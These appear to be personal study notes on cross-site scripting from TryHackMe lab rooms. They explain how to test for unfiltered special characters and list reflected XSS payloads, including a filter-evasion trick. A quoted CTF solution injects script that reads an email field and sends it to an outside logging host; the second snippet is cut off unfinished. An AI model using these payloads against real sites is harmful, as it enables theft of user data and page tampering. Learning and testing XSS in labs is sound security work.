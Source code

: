 Input special characters and observe the output to determine if any of the special characters return unfiltered.

< > ' " { } ;

- HTML elements (<>)
- JS function declaration ({})
- Strings ('")
- End of statement (;)

If the application does not remove or encode these characters, it may be vulnerable to XSS because the app interprets the characters as code, which in turn, enables additional code.































## Reflected XSS
The server-side application processes data from a request and echoes the data in the response. 

User-supplied data in an HTTP request is included in the webpage source without any validation.
The JavaScript is executed because it is in the HTTP response.

Only affects the person making the web request.

```
<script>alert(window.location.hostname)</script>
<script>alert("Hello World")</script>
<script>alert(document.cookies)</script>
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
/images/cat.jpg" onload="alert('THM');
</textarea><script>alert('THM');</script>

# Avoid Filters
<sscriptcript>alert('THM');</sscriptcript>
```






```
// from "https://tryhackme.com/r/room/thatstheticket"
</textarea>
<script>
var i = new Image(); i.src="//TEST.1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML;
</script>

</textarea>
<script>
var email = (document.getElementById('email').innerHTML).replace("@","-at-");
var my_address = "1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech";
var request = new XMLHttpRequest();
```